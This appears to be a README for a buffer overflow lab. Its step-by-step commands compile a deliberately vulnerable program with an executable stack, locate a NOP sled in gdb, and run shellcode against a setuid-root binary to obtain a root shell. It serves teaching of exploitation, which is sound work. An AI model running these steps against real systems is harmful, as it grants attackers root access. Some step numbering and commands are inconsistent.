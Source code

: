 Basic buffer overflow example with shellcode and setuid for root shell.

Perform the below instructions  with a non root user (you will need sudo  
or root for some commands):

I've wrote and tested this code on a VM running: Ubuntu 12.04.4 LTS i686

1. Test ALSR is disabled:
   * See ../common/README.md on esp.c
5. Compile test vulnerable program: 
   * gcc -g -z execstack -o bo1 bo1.c
6. Test with no overflow: 
   * ./bo1 A
7. Test with overflow: 
   * ./bo1 $(cat e1)
8. Test we can overwrite return address value: 
   * cat e2
   * gdb ./bo1
   * break 10
   * r $(cat e2)
   * info registers
   * x/40x $esp 
   * The bottom of stack ($ebp) should contain 4321 (we can
     overwrite $eip !!!)
9. Run exploit and select NOP address to replace in exploit file:
   * cat e3
   * gdb ./bo1
   * break 10
   * r $(cat e3)
   * info registers
   * x/40x $esp
   * Select an address in the middle x90 (NOP)
10. Update exploit b3 python script with chosen address (variable eip)
11. Run exploit and get shell from gdb (no root since we run gdb as non root user)
    * gdb ./bo1
    * r $(cat e4) 
12. Setuid and run without debugger:
    * sudo chown root bo1
    * sudo chmod u+s bo1
    * gdb ./bo1 $(cat e4)
    * id (should be root) 
13. If exploit failed, it's because environment variables are on the stack and offset is wrong.  
Play with address in e4 with hexedit adding or removing 50 or 20 at a time until it works. A more 
resiliant method is to run gdb and non gdb exploits with an empty envionment like so:
    * env -i PWD="." SHELL="/bin/bash" SHLVL=0 gdb ./bo1 (remember unset env COLUMNS and unset env LINES)
    * env -i PWD="." SHELL="/bin/bash" SHLVL=0 ./vuln $(cat e4)
